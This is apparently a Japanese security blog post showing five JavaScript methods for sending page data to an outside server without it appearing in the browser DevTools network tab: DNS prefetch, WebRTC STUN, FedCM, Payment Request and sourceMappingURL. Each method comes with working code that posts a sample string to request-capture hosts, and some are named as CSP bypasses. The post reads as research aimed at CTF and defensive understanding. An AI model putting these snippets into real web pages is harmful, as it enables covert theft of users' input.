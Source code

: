 # ブラウザ開発者ツールのネットワークタブに表示されない情報送信手法

## はじめに
はじめまして、セキュリティエンジニアのSatoki ([@satoki00](https://x.com/satoki00)) です。今回はブラウザの開発者ツールのネットワークタブから隠れて、Webサイト内の情報を送信する手法をまとめます。所謂Exfiltrationというやつです。中にはCSPの制限をBypassするために用いられるテクニックもあります。CTFなどで安全に使ってください。

## 前提
発端はWeb上でテキストの文字数をカウントできるサイトが閉鎖する際の話です。カウント対象のテキストデータがサイト運営 (やサイトを改竄した攻撃者) に盗み取られていないかという議論が巻き起こっていました。「盗み取られていない」側の主張は、ブラウザの開発者ツールのネットワークタブにリクエストを送信した形跡がないというものでした。ここで **ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** といった疑問が生まれます。確かにfetchやXMLHttpRequestを用いて外部へデータを送信すると、ネットワークタブにリクエストの詳細が表示されます。とても気になりますね。

![example.png](images/example.png)  
ネットワークタブにリクエストの詳細が表示される  


ちなみに、件の文字数カウントサイトはローカルで文字数をカウントする設計で、安全だったのであろうと考えています (HTTPS未対応だったのでMITMできるという話は置いておく) 。

## テクニック
**ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** の答えは否です。よく考えれば分かるのですが、実際にJavaScriptで送信するテクニックを紹介します。テクニックのゴールは、"文字数カウントのために貼り付けられたテキストを、ネットワークタブに表示させることなく送信する"です。ここではサイト運営が悪人か、サイトが改竄されたかを問いません。ちなみにページのcloseを検知しての送信や時間差での送信などは禁止です 。シグナリング時のWebSocketも怪しすぎるのでアウトです。

以下が今回の検証環境です。  
- Google Chrome 126.0.6478.127 (Firefoxには生えていないWebAPIがあるので注意)  
- [RequestBin](https://pipedream.com/requestbin) (HTTPリクエストの受信)  
- [mess with dns](https://messwithdns.net/) (DNSリクエストの受信)  

送信するデータの例として文字列 `Satoki_no_himitsu` を用います。他の文字列でもbase64やhexに変換すれば、やることは変わりません。長さが問題であれば分割すれば良いです。

### DNS Prefetch
ページ読み込みの速度向上のため、ブラウザが事前に名前解決を行う仕組みを利用します。HTML中に`<link rel="dns-prefetch" href="URL">`と記述することで利用できます。ブラウザの設定で「ページをプリロードする」がoffの場合には利用できません。

```js
var body = document.getElementsByTagName("body")[0];
body.innerHTML = body.innerHTML + '<link rel="dns-prefetch" href="//' + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + '.papaya260.messwithdns.com">';
```

![dns_prefetch.png](images/dns_prefetch.png)  
受信したリクエスト  

### WebRTC
WebRTCのコネクション時のSTUNサーバへのDNSリクエストを利用します。未検証ですがSTUNサーバの認証のためのusernameとして送信したい情報を設定する手法もあるようです。

```js
p = new RTCPeerConnection({
    iceServers: [{
        urls: "stun:" + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + ".rhino232.messwithdns.com"
    }]
});
p.createDataChannel("");
p.setLocalDescription();
```

![webrtc.png](images/webrtc.png)  
受信したリクエスト  


### Federated Credential Management
IdPから構成情報を取得する際のリクエストURLを利用します。認証情報を保存する際のアイコンのURLとして情報を送信する手法も確認されていますが、ユーザにダイアログが出現するため今回はスコープ外とします。セキュアコンテキストでのみ利用できます。

```js
await navigator.credentials.get({
    identity: {
        providers: [{
            configURL: "https://enbx53nv6g23p.x.pipedream.net/?text=" + "Satoki_no_himitsu",
            clientId: "satoki",
        }, ],
    },
});
```

![fedcm.png](images/fedcm.png)  
受信したリクエスト  


### Payment Request
Payment Request APIのコンストラクタに決済手段としてURLを渡すことで、リクエストが発される仕組みを利用します。セキュアコンテキストでのみ利用できます。

```js
new PaymentRequest(
    [{
        supportedMethods: "https://envycdb25h1v.x.pipedream.net/?text=" + "Satoki_no_himitsu",
    }, ], {
        total: {
            label: "total",
            amount: {
                value: "10000",
                currency: "USD"
            },
        },
    },
);
```

![paymentrequest.png](images/paymentrequest.png)  
受信したリクエスト  

### sourceMappingURL
ブラウザがminifyなどされる前のソースコードを取得するSourceMapを利用します。HTML中に`<script>//# sourceMappingURL=URL</script>`と記述することで利用できます。開発者ツールを開いた場合 (Firefoxではデバッグタブを開いた場合) にのみリクエストが発生します。

```js
var script = document.createElement("script");
script.text = "//# sourceMappingURL=https://en74n4g1y5i1j.x.pipedream.net/?text=" + "Satoki_no_himitsu";
document.body.appendChild(script);
```

![sourcemappingurl.png](images/sourcemappingurl.png)  
受信したリクエスト  


## おわりに
**いかがでしたか！**  
ブラウザの開発者ツールのネットワークタブに表示が無くとも、外部に情報が送信されている可能性があることがわかりましたね。他にも様々な手法があるかと思いますので、発見したら教えてください。


※ 本記事は2024/04/02にX (旧Twitter) にポストしたもの+αのまとめです。それ以降でどこかにまとめられているかもしれませんが、私の知るところではありません。

## 参考文献
- [HackTricks / CSP Exfiltration Bypasses](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#csp-exfiltration-bypasses)  
- [@st98さんのXポスト](https://x.com/st98_1f512/status/1787857217557070142)  
- [@melonattackerさんのXポスト](https://x.com/melonattacker/status/1787839408458416417)  
- [MDN / Federated Credential Management (FedCM) API](https://developer.mozilla.org/en-US/docs/Web/API/FedCM_API)  
- [MDN / Payment Request API](https://developer.mozilla.org/en-US/docs/Web/API/Payment_Request_API)  
- [@XssPayloadsさんのXポスト](https://x.com/XssPayloads/status/792683058931625984)  